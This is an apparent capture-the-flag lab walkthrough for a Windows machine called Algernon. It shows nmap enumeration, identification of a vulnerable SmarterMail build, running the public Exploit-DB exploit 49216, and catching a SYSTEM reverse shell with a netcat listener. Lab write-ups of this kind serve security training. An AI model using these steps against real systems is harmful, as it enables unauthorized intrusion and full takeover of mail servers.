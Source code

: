 #windows 

# Exploitation Guide for Algernon

## Summary

We will exploit this machine via a remote code execution vulnerability in build 6985 of the SmarterMail application. #smartmail

## Enumeration

### Nmap

Let's start with an `nmap` scan against all TCP ports:

```
kali@kali:~$ sudo nmap -p- 192.168.120.110
Nmap scan report for 192.168.120.110
Host is up (0.28s latency).
Not shown: 65527 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
9998/tcp  open  distinct32
17001/tcp open  unknown
```

Port 9998 seems interesting. Let's scan it more aggressively.

```
kali@kali:~$ sudo nmap -A -p 9998 192.168.120.110
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-12 06:00 EDT
Nmap scan report for 192.168.120.110
Host is up (0.31s latency).

PORT     STATE SERVICE VERSION
9998/tcp open  http    Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-title: Site doesn't have a title (text/html; charset=utf-8).
|_Requested resource was /interface/root
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```

This seems to be a Microsoft IIS application. Browsing to port 9998, we discover that the application is SmarterMail version 6919:

```
kali@kali:~$ curl -L http://192.168.120.110:9998

<!DOCTYPE html>
...
var cssVersion = "100.0.6919.30414.8d65fc3f1d47d00";
var stProductVersion = "100.0.6919";
var stProductBuild = "6919 (Dec 11, 2018)";
...
```

## Exploitation

### RCE

Searching the Exploit Database, we discover a [remote code execution vulnerability](https://www.exploit-db.com/exploits/49216) for an older version of this software. Although the version numbers differ, we'll attempt this exploit against this target.

We'll download the exploit, update the `HOST` and `LHOST` variables as needed, and set `LPORT` to 17001.

Next, we'll set up a netcat listener on port 17001 and launch the exploit.

```
kali@kali:~$ python3 49216.py
```

Our listener indicates that we have obtained a SYSTEM shell.

```
kali@kali:~$ nc -lvp 17001
listening on [any] 17001 ...
192.168.120.110: inverse host lookup failed: Unknown host
connect to [192.168.118.6] from (UNKNOWN) [192.168.120.110] 49852
whoami
nt authority\system
PS C:\Windows\system32>
```

## Escalation

Since we have SYSTEM privileges on the target, no further escalation is required.